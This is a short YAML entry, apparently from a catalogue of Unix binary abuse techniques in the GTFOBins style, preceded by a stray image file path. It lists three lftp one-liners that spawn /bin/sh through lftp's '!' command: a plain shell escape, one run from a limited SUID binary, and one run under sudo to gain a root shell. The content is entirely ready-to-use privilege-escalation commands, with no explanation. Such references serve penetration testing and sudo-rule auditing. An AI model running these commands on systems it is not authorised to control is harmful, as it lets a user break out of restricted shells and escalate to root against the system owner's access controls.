 ```yaml
---
functions:
  shell:
    - code: lftp -c '!/bin/sh'
  limited-suid:
    - code: ./lftp -c '!/bin/sh'
  sudo:
    - code: sudo lftp -c '!/bin/sh'
---
```

